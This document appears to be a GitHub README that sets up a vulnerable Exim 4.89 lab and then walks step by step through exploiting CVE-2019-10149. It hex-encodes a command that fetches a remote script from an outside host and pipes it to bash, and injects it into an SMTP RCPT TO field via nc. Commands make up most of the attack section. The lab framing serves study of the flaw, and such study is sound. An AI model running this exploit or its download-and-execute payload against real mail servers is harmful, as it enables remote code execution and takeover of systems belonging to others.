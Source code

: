 # CVE-2019-10149
Instructions for installing a vulnerable version of Exim and its expluatation

# CVE-2019-10149 - Exim 4.87 < 4.91
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
*wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
*cd exim-4.89/

Copy and modify required config files
*sed -e 's,^EXIM_USER.*$,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile

*cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
*sudo groupadd -g 31 exim 

*sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
*sudo apt-get update
*sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
*sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
*sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains = */' /usr/exim/configure
*sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
*sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
*sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
*/bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
*\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example
*\t-c\ = -c
*\t\= space
*x20 = space
*x7C = |
*x2F = /
*x3A = :
*x2D = -
*x3E = >
*x26 = &
*x22 = "
*x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
*nc 192.168.0.168 25
 
Once we are connected we say HELO.
*helo localhost
*(Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
*mail from:<>
*(Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
*rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
*(Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
*DATA
*Received: 1
*Received: 2
*Received: 3
*Received: 4
*Received: 5
*Received: 6
*Received: 7
*Received: 8
*Received: 9
*Received: 10
*Received: 11
*Received: 12
*Received: 13
*Received: 14
*Received: 15
*Received: 16
*Received: 17
*Received: 18
*Received: 19
*Received: 20
*Received: 21
*Received: 22
*Received: 23
*Received: 24
*Received: 25
*Received: 26
*Received: 27
*Received: 28
*Received: 29
*Received: 30
*Received: 31
*
*.

